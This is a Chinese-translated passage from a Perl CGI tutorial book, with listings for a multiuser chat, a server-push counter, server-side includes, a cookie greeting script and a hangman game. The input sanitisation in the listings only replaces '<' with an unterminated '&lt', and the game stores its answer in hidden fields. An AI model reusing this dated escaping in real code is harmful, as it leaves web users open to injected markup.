你可能想要自定义的一个元素是这个应用程序使用的五秒刷新周期。为了持续刷新聊天文本，我使用了*客户端拉取*来最小化服务器负载。使用客户端拉取，客户端Web浏览器会自动持续向服务器请求更新。你可以通过在页面头部添加一个**meta**标签来实现客户端拉取，就像这样，我在这里表示客户端Web浏览器应在五秒后请求更新：

```
print
$co->header,
"<meta HTTP-EQUIV=\"Refresh\" CONTENT=\"5\">",
$co->start_html(
    -title=>'Chat Example',
    -author=>'Steve',
    -target=>'_display',
    -BGCOLOR=>'white',
    -LINK=>'red'
);
```

你可以通过更改`chat1.cgi`中的这一行来更改刷新率；只需替换为你想要的秒数。请注意，尽管我在这里将**meta**标签显式地放在了代码中，你也可以使用**CGI.pm**模块的**header**方法中的**-Refresh**属性来做同样的事情。使用**-Refresh**对于在设定的秒数后重定向浏览器也很有用，如这个例子：`header( -Refresh=>'5; URL=http://www.cpan.org')`。

## 使用 -override 清除粘性的HTML控件

关于**CGI.pm**，我还需要再说明一点。当用户提交一个包含带有数据的控件的表单，并且你的脚本返回相同的表单时，**CGI.pm**默认会将旧控件的数据复制到新控件中；这个过程被称为数据的“粘性”。换句话说，假设一个表单包含这个文本区域：

```
$co->textarea(
    -name=>'textarea',
    -default=>'',
    -rows=>4,
    -columns=>40
);
```

如果用户在此文本区域中输入文本并将其提交到你的脚本，脚本可以使用标准CGI方法读取该文本。然而，当你返回包含相同表单的网页时，**CGI.pm**会恢复原始文本到文本区域（即使你在代码中将文本区域的默认文本设置为空字符串）。**CGI.pm**这样做特别是为了用户使用浏览器的“后退”按钮返回到CGI脚本的页面以修改或添加一些数据的情况，这样用户就不必从头开始输入所有内容。

在聊天应用程序中，结果是当用户提交文本时，该文本将被接受，但在页面刷新时它不会从文本区域中消失。为了使**CGI.pm**在这种情况下尊重你指定的默认值，你需要将**-override**属性设置为真：

```
$co->textarea(
    -name=>'textarea',
    -default=>'',
    -override=>1,
    -rows=>4,
    -columns=>40
);
```

现在，在用户评论被读取后，文本区域会被清除，这就是你所期望的。

就是这样了。这个聊天应用程序已准备就绪，可供你使用，并与互联网上的朋友开始聊天。这个应用程序的代码如下。

## 清单 23.1  chat.htm

```
<HTML>
<HEAD>
<TITLE>Chat</TITLE>
<FRAMESET ROWS="150,*">
    <NOFRAMES>Sorry, you need frames to use chat.</NOFRAMES>
    <FRAME NAME="_display" SRC="chat1.cgi">
    <FRAME NAME="_data" SRC="chat2.cgi">
</FRAMESET>
</HTML>
```

## 清单 23.2  chat1.cgi

```
#!/usr/bin/perl
use CGI;
use Fcntl;
$co = new CGI;

open (DATA1, "<chat1.dat")
    or die "Could not open data file.";
lockfile(DATA1);
$text1 = <DATA1>;
unlockfile(DATA1);
close DATA1;

open (DATA2, "<chat2.dat")
    or die "Could not open data file.";
lockfile(DATA2);
$text2 = <DATA2>;
unlockfile(DATA2);
close DATA2;

print
$co->header,
"<meta HTTP-EQUIV=\"Refresh\" CONTENT=\"5\">",
$co->start_html(
    -title=>'Chat Example',
    -author=>'Steve',
    -target=>'_display',
    -BGCOLOR=>'white',
    -LINK=>'red'
),
$co->center(
    $co->h1('Multiuser Chat')
),
$co->p,
$co->p,
$co->center(
    $text1
),
$co->p,
$co->center($text2),
$co->end_html;

exit;

sub lockfile
{
    my $count = 0;
    my $handle = shift;
    until (flock($handle, 2)) {
        sleep .10;
        if(++$count > 50) {
            print
                $co->header,
                "<meta HTTP-EQUIV=\"Refresh\" CONTENT=\"5\">",
                $co->start_html(
                    -title=>'Chat Example',
                    -author=>'Steve',
                    -target=>'_display',
                    -BGCOLOR=>'white',
                ),
                $co->center($co->h1('Server too busy')),
                $co->end_html;
            exit;
        }
    }
}

sub unlockfile
{
    my $handle = shift;
    flock($handle, 8);
}
```

## 第23章 CGI：创建多用户聊天、服务器推送、Cookies和游戏

## 清单23.3 chat2.cgi

```perl
#!/usr/bin/perl

use CGI;

use Fcntl;

$co = new CGI;

if ($co->param()) {

    $name = $co->param('username');
    $name =~ s/</&lt/g;

    $text = $co->param('textarea');
    $text =~ s/</&lt/g;

    if ($text) {

        my $oldtext;

        open (OLDDATA, "<chat2.dat")
            or die "Could not open data file.";

        lockfile(OLDDATA);

        $oldtext = <OLDDATA>;

        unlockfile(OLDDATA);

        close OLDDATA;

        open (DATA, ">chat1.dat")
            or die "Could not open data file.";

        lockfile(DATA);

        print DATA $oldtext;

        unlockfile(DATA);

        close DATA;

        open (NEWDATA, ">chat2.dat")
            or die "Could not open data file.";

        lockfile(NEWDATA);

        print NEWDATA "<B>", $name, ": ", "</B>", $text;

        unlockfile(NEWDATA);

        close NEWDATA;
    }
}

&printpage;

sub printpage
{
    print
    $co->header,

    $co->start_html
    (
        -title=>'Chat Example',
        -author=>'Steve',
        -BGCOLOR=>'white',
        -LINK=>'red'
    ),

    $co->startform,

    $co->center("Please enter your name: ",

    $co->textfield(-name=>'username'),

    "and type your comments below."),

    $co->p,

    $co->center
    (
        $co->textarea
        (
            -name=>'textarea',
            -default=>'',
            -override=>1,
            -rows=>4,
            -columns=>40
        )
    ),

    $co->center
    (
        $co->submit(-value=>'Send text'),
        $co->reset,
    ),

    $co->hidden(-name=>'hiddendata'),

    $co->endform,

    $co->end_html;
}

sub lockfile
{
    my $count = 0;

    my $handle = shift;

    until (flock($handle, 2)) {

        sleep .10;

        if(++$count > 50) {
            &printpage;
            exit;
        }
    }
}

sub unlockfile
{
    my $handle = shift;

    flock($handle, 8);
}
```

| 相关解决方案 | 所在页 |
| --- | --- |
| flock 锁定文件以进行独占访问 | 569 |

## 使用服务器推送

“哇，”初学程序员说，“我看了你的 CGI 聊天程序，你通过客户端拉取让浏览器持续更新显示页面的方式很巧妙。”“事实上，”你说，“你也可以使用 *服务器推送*。那样的话，服务器会自动持续发送数据。”

既然我们已经在聊天应用中看到了客户端拉取，我来看看服务器推送是如何工作的。使用服务器推送，你可以持续向浏览器客户端发送后续页面。

要创建服务器推送程序，你需要使用 **CGI::Push** 而不是 CGI，因为 **CGI::Push** 继承了 CGI，并向 CGI 添加了 **do_push** 方法以支持服务器推送。需要注意的是，有些服务器通过读取你发送给客户端的内容来意识到你在使用服务器推送，但许多服务器要求你为服务器推送 CGI 脚本的名称添加 “nph-” 前缀（代表未解析头），所以我会将此示例命名为 nph-push.cgi。此示例的代码见清单 23.4。

在此示例中，我将创建一个在浏览器中由服务器更新的计数器，从 1 计数到 50。虽然我只是在这里发送一系列带有新文本的网页，但你当然也可以在此类页面中使用新图像，从而创建（带宽密集型的）动画。

要使用 **CGI::Push**，我像这样创建一个该类型的对象：

```perl
#!/usr/bin/perl

use CGI::Push;

$co = new CGI::Push;
```

要实际创建服务器推送，你需要使用 **do_push** 方法并传递 **-next_page** 属性，这是一个指向将创建页面的函数的引用，如下所示，我将该函数命名为 **page**：

```perl
#!/usr/bin/perl

use CGI::Push;

$co = new CGI::Push;

$co->do_push(-next_page=>\&page);
```

**CGI::Push** 将当前对象的引用（这个 `$obj`，我将在代码示例中用它来调用 CGI 方法——这是更好的编程风格）和函数迄今为止被调用的次数传递给 **page** 函数。当你想停止向客户端发送页面时，你从函数返回 **undef** 值。否则，你返回网页本身的文本；**do_push** 会为你将其打印到网页浏览器。

在这种情况下，我只将计数器更新 50 次，所以当 **page** 函数被调用超过 50 次时，我让它返回 **undef**：

```perl
sub page
{
    my($obj, $counter) = @_;

    return undef if $counter > 50;
```

否则，我像这样返回一个带有更新计数的新页面：

```perl
sub page
{
    my($obj, $counter) = @_;

    return undef if $counter > 50;

    return
        $obj->start_html,
        $obj->br,
        $obj->center($co->h1('Server Push Example')),
        $obj->br,
        $obj->center($co->h1('Counter: ', $counter)),
        $obj->end_html;
}
```

这就是全部内容；你可以在图23.2中看到结果，服务器正在向客户端发送一系列页面。此示例成功了。

## 清单23.4 nph-push.cgi

```perl
#!/usr/bin/perl

use CGI::Push;

$co = new CGI::Push;

$co->do_push(-next_page=>\&page);

sub page
{
    my($obj, $counter) = @_;
    return undef if $counter > 50;
    return
        $co->start_html,
        $co->br,
        $co->center($co->h1('Server Push Example')),
        $co->br,
        $co->center($co->h1('Counter: ', $counter)),
        $co->end_html;
}
```

图23.2 使用服务器推送。

## 使用服务器端包含

> “我知道服务器推送，”初学程序员说，“但 *服务器端包含* 是怎么回事？”“嗯，”你说，“服务器端包含实际上不是一种 CGI 技术；它们是一些服务器支持的命令和变量。拉把椅子过来，我们来看看。”

你可以使用服务器端包含向服务器发送命令或从中获取数据。你将服务器端包含嵌入 HTML 页面中，并为这些页面指定扩展名 .shtml，而不是 .html。你将在表23.1中看到一些流行的服务器端包含的列表。请注意，你可以通过使用 **exec cmd=** 和 **exec cgi=** 服务器端包含执行 CGI 脚本和 shell 命令。

尽管服务器端包含不是真正的 CGI 编程，但为了完整性，我将在这里介绍它们，编写一个名为 ssi.shtml 的示例，它出现在清单23.5中。如你在该清单中所见，我只是显示各种服务器端包含变量的值，例如文档名称（ssi.shtml）：

```html
<P>
Document name: <!--#echo var="DOCUMENT_NAME" -->
```

另请注意，我执行了 Unix 命令 **uptime** 来找出服务器已运行的时间，如下所示：

```html
<P>
Up time: <!--#exec cmd="uptime" -->
```

结果显示在图23.3中；如你在该图中所见，服务器本身填充了我要显示的变量的值，并执行了 **uptime** 命令，显示服务器已运行的时间。

## 表23.1 部分服务器端包含

| 服务器端包含 | 功能 |
| --- | --- |
| <!--#echo var="DOCUMENT_NAME"--> | 显示文档的名称 |
| <!--#echo var="DOCUMENT_URI"--> | 显示文档的虚拟路径和名称 |
| <!--#echo var="LAST_MODIFIED"--> | 显示文档最后修改的日期 |
| <!--#echo var="DATE_LOCAL"--> | 显示本地日期和时间 |
| <!--#echo var="DATE_GMT"--> | 显示格林尼治标准时间和日期 |
| <!--#config timefmt="%s"--> | 设置显示时间的格式 |
| <!--#config sizefmt="%d"--> | 设置显示文件大小的格式 |
| <!--#config errmsg="Uh oh"--> | 设置错误消息的文本 |
| <!--#exec cgi="cgi/script.cgi"--> | 执行 CGI 脚本 |
| <!--#exec cmd="shell command"--> | 执行 shell 命令 |
| <!--#include file="file.txt"--> | 显示给定文件 |
| <!--#fsize file="file.txt"--> | 显示文件的大小 |
| <!--#flastmod file="file.txt"--> | 显示文件最后修改的时间 |

## 清单23.5 ssi.shtml

```html
<HTML>
<HEAD>
<TITLE>Server Side Includes</TITLE>
</HEAD>
<BODY>
<CENTER>
<H1>Server Side Includes</H1>
</CENTER>
<H3>
<P>
Document name: <!--#echo var="DOCUMENT_NAME" -->
<P>
Document path: <!--#echo var="DOCUMENT_URI" -->
<P>
Server name: <!--#echo var="SERVER_NAME" -->
<P>
Local date: <!--#echo var="DATE_LOCAL" -->
<P>
Up time: <!--#exec cmd="uptime" -->
</H3>
</BODY>
</HTML>
```

图23.3 使用服务器端包含。


# 编写和读取 Cookie

"嘿，"初学程序员说道，"既然我现在会写 CGI 脚本了，我就能用 Cookie 了！我可以为日期设置一个 Cookie，为时间设置一个 Cookie，还有购物车数据、用户生日等等……""等等，"你说，"凡事都要有度——尤其是 Cookie。"

本主题将全面介绍如何编写和读取 Cookie——正如任何网络用户所知，Cookie 允许你将信息存储在用户的计算机上。你可以在用户的机器上存储文本数据，并在之后读取这些数据，从而实现网页个性化定制、追踪用户在网站上的浏览路径、创建购物车应用程序等。但是，在你开始不加区分地使用 Cookie 之前，请记住，关于使用 Cookie 的看法差异很大。

## 使用 Cookie

Cookie 让人又爱又恨。许多用户讨厌看到他们的机器上存储了一个又一个的 Cookie。我见过单个网页就存储了超过 70 个 Cookie 的情况。（这种过度使用不仅是烦人——最终还会适得其反，因为许多网络浏览器对 Cookie 的数量有限制（200 或 400 个），并且对 Cookie 的大小也有限制（最大 3KB）。）许多程序员喜欢 Cookie，因为它们可以追踪用户在网站中的浏览路径、存储购物车购买记录，或者根据用户的偏好定制网页。我将在第 24 章创建一个使用 Cookie 的购物车应用程序。

代码清单 23.6 中的 Cookie 脚本允许用户定制页面，使其能按姓名问候用户，并在适当时祝福用户生日快乐。我编写这个脚本时考虑了周全性；除非用户提供了需要存储的信息或更改了这些信息，否则它不会设置任何 Cookie。该脚本确实会检查用户输入，确保用户提供的生日格式为 mm/dd（且只包含数字，并且斜杠位置正确），并会移除用户可能在姓名字符串中提供的任何 HTML 标签。

当用户首次打开 Cookie 脚本 `hellocookie.cgi` 时，该脚本会显示如图 23.4 所示的页面。要定制该页面，用户可以在月/日格式的字段中输入自己的姓名和生日。当用户点击“提交”按钮时，脚本会在机器中写入一个名为 `greetings` 的 Cookie，其中包含用户的姓名和生日。

下次用户访问 `hellocookie.cgi` 时，该脚本会检查 `greetings` Cookie 是否存在，如果存在，则读取它，并显示如图 23.5 所示的问候语（如果日期合适，还会祝用户生日快乐）。脚本的功能就完成了。

## 第 23 章 CGI：创建多用户聊天、服务器推送、Cookie 和游戏





## 如何编写 Cookie

使用 **CGI.pm** 来操作 Cookie 并不困难。以下示例展示了如何编写名为 `greetings` 的 Cookie，该 Cookie 将信息存储在一个名为 **%greetings** 的哈希中，并将在一年后过期：

```
$co = new CGI;

$greetingcookie = $co->cookie
(
    -name=>'greetings',
    -value=>\%greetings,
    -expires=>'+365d'
);

print

$co->header(-cookie=>$greetingcookie);
```

请注意，你可以使用 **-expires** 属性来指示 Cookie 的过期时间；**+5h** 表示五小时；**+5d** 表示五天；**+5m** 表示五个月；**+5y** 表示五年。你也可以像这样同时设置多个 Cookie：**$co->header(-cookie=>[$newcookie1, $newcookie2])**。

你可以使用 **cookie** 方法设置以下属性：**-domain**、**-expires**、**-name**、**-path**、**-secure**、**-value** 和 **-values**。你可以将一个列表（包括数组或哈希）作为 Cookie 的值传递，当你读取 Cookie 时，会得到那个列表。事实上，你可以使用 CPAN 的 **Data::Dumper** 模块来轻松创建复杂数据结构的可存储版本。

要实际创建 Cookie，你需要将其作为命名参数传递给 CGI 的 **header** 方法，该方法接受这些属性：**-cookie**、**-cookies**、**-expires**、**-nph**（用于非解析头脚本）。一些浏览器会缓存来自 CGI 脚本的数据，但一些（如 Netscape Navigator）则不会，因此你可以使用 **-expires** 属性来使这种行为在不同浏览器间保持一致。

这里需要记住的关键点是，你在编写页面头部时写入 Cookie；你不能在 CGI 脚本的任何位置随意写入 Cookie：

```
$greetingcookie = $co->cookie
(
    -name=>'greetings',
    -value=>\%greetings,
    -expires=>'+365d'
);

print

$co->header(-cookie=>$greetingcookie);
```

你只能在头部写入 Cookie 这一事实意味着，有时你必须在编写页面头部（以及随后页面的其余部分）之前进行大量计算，这意味着你需要避免将头部作为代码中第一件要做的事情的诱惑。虽然你只能在头部写入 Cookie，但你可以在代码的任何位置读取它们。

## 如何读取 Cookie

要读取 Cookie，你只需使用 CGI 的 **cookie** 方法，并将该 Cookie 的名称传递给该方法。例如，在你将 `greetings` Cookie 读回之后，你可以使用存储在该 Cookie 的哈希 **%greetings** 中的数据：

```
$co = new CGI;

%greetings = $co->cookie('greetings');

print $greetings{'name'};
```

如果你不带任何参数调用 **cookie**，它将返回你的脚本可以访问的所有 Cookie 的名称。你也可以使用 **CGI.pm** 的 **raw_cookie** 方法，它返回来自浏览器的未经处理的 Cookie 列表；你需要自己负责解析这些数据。

使用 Cookie 就这么简单。你使用 **cookie** 方法创建一个 Cookie，然后使用 **header** 方法的 **-cookie** 属性来写入该 Cookie，最后再次使用 **cookie** 方法将 Cookie 的数据读回。使用 Cookie 很容易，但要体贴，因为许多用户仍然反对程序在他们的机器上写入数据。实际上，我将在第 24 章创建一个替代的、不使用 Cookie 的购物车应用程序。

## 代码清单 23.6 hellocookie.cgi

```
#!/usr/bin/perl

use CGI;

$co = new CGI;

%greetings = $co->cookie('greetings');

if ($co->param('name')) {
    $greetings{'name'} = $co->param('name')
}

if ($co->param('birthday')) {
    $greetings{'birthday'} = $co->param('birthday')
}
```

```
($day, $month, $year) = (localtime)[3, 4, 5];

$date = join ("/", $month + 1, $day);

if(exists($greetings{'name'})) {
    $greetingstring = "Hello " . $greetings{'name'};

    $greetingstring .= ", happy birthday!" if ($date eq
        $greetings{'birthday'});

    $greetingstring  =~ s/</&lt;/g;

    $prompt = "If you want to change this page's settings, just enter
        new data below.";

} else {

    $prompt = "To have this page greet you next time,
        enter your data below.";

}

$greetingcookie = $co->cookie
(
    -name=>'greetings',
    -value=>\%greetings,
    -expires=>'+365d'
);

if($co->param('name') || $co->param('birthday')) {

    print $co->header(-cookie=>$greetingcookie);

} else {

    print $co->header;

}

print

$co->start_html
(
    -title=>"Cookie Example",
),
```

即时解决方案

```
$co->center
(
    $co->h1("Cookie Example"),

    $co->p,
    $co->h1($greetingstring),

    $prompt,

    $co->startform,
    "Your name: ",

    $co->textfield
    (
        -name=>'name',
        -default=>'',
        -override=>1
    ),

    $co->p,
    "Your birthday (month/day): ",

    $co->textfield
    (
        -name=>'birthday',
        -default=>'',
        -override=>1
    ),

    $co->p,
    $co->submit (-value=>'Submit'),
    $co->reset,

    $co->endform,
),

$co->end_html;
```

| 相关解决方案 | 所在页码 |
| --- | --- |
| 购物车演示 | 1048 |
| 无 Cookie 购物车演示 | 1061 |

## 创建游戏

大老板和初学程序员同时到达，大老板说："我们的缺勤率太高了。"初学程序员说："那不是缺勤；那是休假时间。员工被允许*有时*休假。"大老板说："我们需要一些方法让他们留在办公桌前。在线游戏怎么样？"初学程序员说："酷！"

在这个主题中，我将创建一个游戏 `game.cgi`，这是经典“吊死鬼”游戏的互联网版本。它是交互式的，并且相当安全，因为它只使用单选按钮、提交按钮和超链接与用户交互。而且它很有趣；该游戏在 Netscape Navigator 中的效果如图 23.6 所示。

当用户在网页浏览器中打开此脚本时，它会显示一个类似于图 23.6 所示的页面。用户可以通过使用单选按钮和提交按钮来猜字母。如果用户在猜错八次之前猜出了单词，他或她会看到一个祝贺网页；否则，脚本会告诉用户正确答案并邀请他或她再试一次。用户可以随时通过点击一个单选按钮然后点击提交按钮来开始新游戏。

## 在脚本调用之间将数据存储在网页中

这个脚本是一个很好的例子，展示了如何使用网页在脚本调用之间存储信息。你可以使用 Cookie，但许多用户将其



图 23.6 创建一个游戏。


## 第23章 CGI：创建多用户聊天、服务器推送、Cookies 与游戏

将浏览器设置为对 cookies 发出警告，在这个游戏中收到所有这些警告会非常烦人。相反，用户的命中和未命中——甚至实际的答案本身——都存储在表单的隐藏字段中。以这种方式存储数据意味着你不必在每次调用脚本时都跟踪用户；提交的表单会提供你需要的所有信息。当然，这也意味着用户可以通过查看页面的源 HTML 来作弊并看到答案，但毕竟，这只是个游戏。如果你很在意，可以加密这些信息；参见第 8 章。或者，你可以做些像下面这样简单的事情，以 *非常* 低的安全性进行加密和解密：

```
$text = "hello there!";

print "$text\n";

$text =~ tr/a-z/d-za-c/;

print "$text\n";

$text =~ tr/d-za-c/a-z/;

print "$text\n";
```

*hello there!*
*khoor wkhuh!*
*hello there!*

### 自定义这个游戏

要安装这个游戏，你需要 CGI 脚本 game.cgi，它出现在清单 23.7 中。你还需要一个单词文件，名为 answers.dat，游戏可以使用它让用户猜测。我试图让这个不可避免的要求尽可能灵活；answers.dat 可以是任何你喜欢的长度，并使用任意长度的单词。你需要做的就是在 answers.dat 中每行放一个（小写的）单词，不要使用任何逗号、空格或其他分隔符。该脚本设计为接受以 Unix 风格（使用 \n）或 DOS 风格（使用 \r\n）分隔行的纯文本文件，所以你可以在自己的系统上创建 answers.dat 并上传它。（只是别忘了给它适当的权限，以便 game.cgi 可以读取它。）answers.dat 中的一些条目可能如下所示：

```
instruction
history
attempt
harpsichord
flower
person
pajamas
```

一个包含 5,000 个单词的示例 answers.dat 文件存储在随附的 CD-ROM 上，所以如果你愿意，可以使用它。

因为这通常是一个视觉游戏，如果你提供了图片（如图 23.6 左侧所示的那种），这个脚本也会自动使用它们。（如果你不提供也没有问题；脚本会在使用前检查图形文件是否存在。）

在与 game.cgi 相同的目录中，你将这些图像存储为 hang1.gif、hang2.gif 等，直到 hang8.gif，分别对应初始屏幕和用户可能做出的错误猜测。hang1.gif 文件显示一个空的绞刑架，hang2.gif 显示一个带有受害者头部的绞刑架，然后你逐步添加肢体，直到 hang8.gif 中倒数第二次错误猜测。如果玩家进行最后一次错误猜测，游戏将显示 hang9.gif（如果存在）以及答案；如果玩家获胜，游戏将在祝贺页面上显示 hang10.gif（如果存在）。你会在 CD-ROM 上找到带有正确名称的示例图像文件。总的来说，这是一个相当可定制的脚本——我希望你喜欢它！

### 清单 23.7 game.cgi。

```
#!/usr/bin/perl

use CGI;

$co = new CGI;

if ($co->param('newgame') eq "yes" || !$co->param('newgame')){

    newgame();

} else {

    if($co->param('newgameyesno') eq "yes"){

        newgame();

    } else {

        $theanswer = $co->param('answer');
        $theguess = getguess();

        if($theguess eq "-"){

            $thehits = $co->param('hits');
            $themisses = $co->param('misses');
            displayresult();

} else {

    $thehits = gethits();
    if (index($thehits, "-") eq -1){

        youwin();

    } else {

        $themisses = getmisses();

        if(length($themisses) >= 9){
            youlose();

        } else {

            displayresult();

        }
    }
}
```

```
sub newgame
{
    $datafile = "answers.dat";

    open ANSWERDATA, $datafile;

    @answers = <ANSWERDATA>;

    close (ANSWERDATA);

    srand(time ^ $$);

    $index1 = $#answers * rand;

    $theanswer = $answers[$index1];

    chomp($theanswer);

    $themisses = "-";

    $thehits = "";

    for($loopindex = 0; $loopindex < length($theanswer); $loopindex++){

$thehits .= "-";

}

displayresult();
}

sub getguess
{
    $theguess = "-";

    if ($co->param('letters')){
        $theguess = lc($co->param('letters'));
    }

    return $theguess;
}

sub displayresult
{
    print

    $co->header,

    $co->start_html(-title=>'Word Game', -author=>'Steve',
    -bgcolor=>'black', -text=>'#ffff00', -link=>'#ff0000',
    -alink=>'#ffffff', -vlink=>'#ffff00'),

    $co->center
    (
        "<font color = #ffff00>",
        $co->h1('Word Game!'),
        $co->hr
    );

    $len = length($themisses);

    if (-e "hang${len}.gif") {

        print $co->img({-src=>"hang${len}.gif",
             -align=>left, -vspace=>10, -hspace=>1});

    }

    print
    $co->center
    (

$co->h1($thehits),

"<center color = #ffff00>",

$co->h2("Misses (8 max): ". substr($themisses, 1)),

$co->startform,

$co->hidden(-name=>'newgame', -default=>"no",
    -override=>1),

$co->hidden(-name=>'answer', -default=>"$theanswer",
    -override=>1),

$co->hidden(-name=>'hits', -default=>"$thehits",
    -override=>1),

$co->hidden(-name=>'misses', -default=>"$themisses",
    -override=>1),

$co->br,

"Guess a letter:",

$co->br,
),

"<center>",

"A<input type = radio name = \"letters\" value = \"A\"
    checked>";

for ($loopindex = ord('B'); $loopindex <= ord('M');
    $loopindex++) {
    $c = chr($loopindex);

    print "${c}<input type = radio name = \"letters\"
    value = \"${c}\" >";
}

print $co->br;

for ($loopindex = ord('N'); $loopindex <= ord('Z'); $loopindex++) {

    $c = chr($loopindex);

print "${c}<input type = radio name = \"letters\" value = \"${c}\" >";
}

print $co->br,

"Then submit your guess by clicking ",

$co->submit(-value=>'this button'),

$co->br,
$co->br,

"Start new game?",
"<input type = radio name = \"newgameyesno\" value = \"yes\"> Yes",

"<input type = radio name = \"newgameyesno\" value = \"no\" checked> No",

"</center>",

$co->endform,

"</font>",

$co->end_html;
}
```

```
sub gethits
{
$temphits = $co->param('hits');
$thehits = "";

for($loopindex = 0; $loopindex < length($theanswer);
$loopindex++){
$thechar = substr($temphits, $loopindex, 1);
$theanswerchar = substr($theanswer, $loopindex, 1);
if($theguess eq $theanswerchar){
$thechar = $theguess;
}

$thehits .= $thechar;

}
}
```

```
return $thehits;
}

sub getmisses
{
    $themisses = $co->param('misses');

    if(index($theanswer, $theguess) eq -1){
        if(index($themisses, $theguess) eq -1){
            $themisses .= $theguess;
        }
    }

    return $themisses;

}
```

```
sub youwin
{
    print

    $co->header,

    $co->start_html(-title=>'Word Game', -author=>'Steve',
    -bgcolor=>'black', -text=>'#ffff00', -link=>'#ff0000',
    -alink=>'#ffffff', -vlink=>'#ffff00'),

    "<center>",

    "<font color = #ffff00>",

    $co->h1('Word Game!'),

    $co->hr,

    $co->br,

    "</font>",

    "<font color = #ffffff>";

    if (-e "hang10.gif") {
        print $co->img({-src=>"hang10.gif",
            -align=>left, -vspace=>10, -hspace=>1});
    }
    print

$co->h1("You got it: ", $theanswer),

$co->h1("You win!"),

$co->br, $co->br,

$co->startform,

$co->hidden
(
    -name=>'newgame',
    -default=>"yes",
    -override=>1
),

$co->br,
$co->br,

$co->submit(-value=>'New Game'),

$co->endform,

"</font>",

"</center>",

$co->end_html;
}

sub youlose
{
    print

    $co->header,

    $co->start_html(-title=>'Word Game', -author=>'Steve',
    -bgcolor=>'black', -text=>'#ffff00',
    -link=>'#ff0000', -alink=>'#ffffff',
    -vlink=>'#ffff00'),

    "<center>",

    "<font color = #ffff00>",
    $co->h1('Word Game!'),

    $co->hr,
    $co->br,
```


# 第24章
## CGI：创建购物车、数据库、网站搜索与文件上传

| 如果您需要立即解决以下问题： | 请参阅页码： |
| --- | --- |
| 在重新显示的表单中初始化数据 | 1019 |
| 使用CGI环境变量检查浏览器类型等 | 1019 |
| 检查用户是否已登录 | 1022 |
| 重定向浏览器 | 1025 |
| 数据库CGI编程 | 1026 |
| 上传文件 | 1034 |
| 网站搜索——查找匹配字符串 | 1039 |
| 购物车演示 | 1048 |
| 不使用Cookie的购物车演示 | 1061 |

## 深入探讨

本章将介绍大量强大的CGI功能，包括执行网站搜索、处理数据库以及支持购物车的CGI应用程序。我将首先探讨CGI.pm的一个特性，它曾让不止一位CGI程序员感到困惑——自动恢复在重新显示的表单中控件的数据。

### 处理CGI.pm

假设用户已在网页中填写了一个表单，并将其提交到您的CGI脚本，然后您返回相同的页面，但在页面底部添加了一些结果文本。当您返回收到的相同表单时，CGI.pm会自动恢复用户最初输入到那些控件中的值。CGI.pm恢复这些值是为了让用户更容易修改数值并重新提交表单，但作为一个副作用，CGI.pm在脚本中创建表单时，会忽略您为控件设置的默认值。结果是，即使您想向用户展示一个控件中没有数据的干净表单，页面最终仍会显示用户刚刚发送的数据。我将在本章的“即时解决方案”部分“在重新显示的表单中初始化数据”主题中讨论如何让CGI.pm遵守您为控件指定的默认值。

接下来，我将介绍几个检查脚本可用CGI环境变量的实用程序，并展示一个如何在CGI脚本中使用Unix实用程序的示例。您可以在CGI环境变量中找到大量令人惊讶的信息，例如服务器名称、脚本的根目录、正在使用的浏览器类型、浏览器可接受的图像类型等等，因此我将在此介绍这些环境变量。其中一个非常有用的项是`HTTP_USER_AGENT`变量，它为您提供网页正在使用的浏览器名称。在当今动态HTML的时代，为不同浏览器编写的HTML可能截然不同（在Microsoft Internet Explorer与Netscape Navigator中，所谓的“动态HTML”几乎完全不同），检查浏览器类型后，您可以据此调整编写的HTML。

如果您的CGI脚本运行在Unix服务器上，您可以访问Unix实用程序，实际上，我在上一章的“服务器端包含”主题中已经使用了Unix的uptime命令。在本章中，我将使用另一个Unix实用程序——who命令——来查看用户是否已登录。您只需在网页中输入用户名并点击一个按钮，脚本就会告知您该用户是否已登录。

> **提示：** 在从CGI脚本使用Unix命令之前，我建议您先查看第22章的“认真对待安全”主题。

我还将在本章介绍如何将浏览器重定向到新的网页。我在上一章讨论了如何使用客户端拉取（client pull）来实现（参见第23章的“创建多用户聊天应用程序”主题），但在此我将介绍如何创建重定向网页头。

接下来，我将通过创建一个可通过Web使用的数据库应用程序，来探讨使用CGI脚本进行数据库编程。该脚本将使用**NDBM_File**在Web服务器上写入、更新和读取一个数据库，您可以通过浏览器访问它。

